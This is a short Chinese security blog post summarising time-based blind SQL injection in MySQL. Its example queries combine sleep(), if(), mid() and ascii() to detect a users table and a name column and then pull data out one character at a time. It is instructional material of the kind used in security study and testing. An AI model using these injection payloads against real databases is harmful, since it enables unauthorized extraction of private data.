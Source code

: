 ```yaml
---
layout: post
title: "延时注入小结"
subtitle: "延时注入小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select sleep(3);
+----------+
| sleep(3) |
+----------+
|        0 |
+----------+

mysql> select name from users limit 1;
+----------+
| name     |
+----------+
| XiaoMing |
+----------+

```



**判断是否存在users表名**

```mysql
select * from users where id=1 and 0=if((select count(*) from users),sleep(3),1);

select * from users where id=1 and if((select count(*) from users),sleep(3),1);
```





**判断是否存在name字段**

```mysql
select * from users where id=1 and 0=if((select count(name) from users),sleep(3),1);

select * from users where id=1 and if((select count(name) from users),sleep(3),1);
```



**延时取出name字段数据**

```mysql
select * from users where id=1 and if(('g' = mid((select name from users limit 1),8,1)),sleep(3),1);
```



**利用ascii码取出 name字段数据 **

```mysql
select * from users where id=1 and if((ascii(mid((select name from users limit 1),1,1))=88),sleep(3),1);



select * from users where id=1 and if((ascii(mid((select name from users limit 1),2,1))=105),sleep(3),1);
```

------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***
